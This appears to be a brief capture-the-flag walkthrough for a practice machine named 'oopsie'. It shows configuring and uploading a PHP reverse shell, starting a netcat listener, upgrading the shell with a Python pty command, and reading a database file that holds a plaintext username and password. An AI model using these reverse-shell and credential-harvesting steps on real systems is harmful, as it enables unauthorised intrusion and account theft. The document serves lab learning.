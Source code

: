 # php revese shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`

Change port and ip and then upload the file.
```bash
$ip = '@IP_Local';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Username is `www-data` and the machine is named `oopsie`.

Search in the directory `/var/www/html/xxx/` the folder `login`. There are 4 files in that folder. 

## admin.php
Inside the file there's a new id `86575` but no username related.

## db.php
In the first lines appears the username `robert` with a password `M3g4C0rpUs3r!` and the word `garage`.

